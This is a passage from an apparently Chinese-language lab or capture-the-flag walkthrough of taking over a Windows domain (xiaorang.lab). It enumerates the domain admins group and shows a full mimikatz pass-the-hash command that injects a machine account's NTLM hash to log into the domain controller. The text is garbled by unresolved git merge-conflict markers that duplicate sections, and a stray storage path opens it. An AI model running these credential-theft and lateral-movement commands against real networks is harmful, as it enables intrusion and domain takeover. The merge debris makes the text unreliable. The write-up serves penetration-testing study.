 但是没有管理员的 hash

查看当前域中的用户

<<<<<<< HEAD
[![](assets/1710898702-8581c9c05858ae710086977b14eed8a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095556-ff502e14-e1a5-1.png)

域管用户信息收集

```plain
=======
[![](assets/1710465355-8581c9c05858ae710086977b14eed8a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095556-ff502e14-e1a5-1.png)

域管用户信息收集

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
shell net group "domain admins" /domain
```

发现 win2016$ 在域管组里，即机器账户可以 Hash 传递登录域控。

利用 mimikatz 注入机器账户的 hash

<<<<<<< HEAD
```plain
shell C:\Users\Aldrich\Desktop\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:WIN2016$ /domain:xiaorang.lab /ntlm:b1b840a5c19c4290a284204df50126a6" "exit"
```

[![](assets/1710898702-4d7d0d41452a00ed25ebe6a800888bb7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095601-0299e6f0-e1a6-1.png)
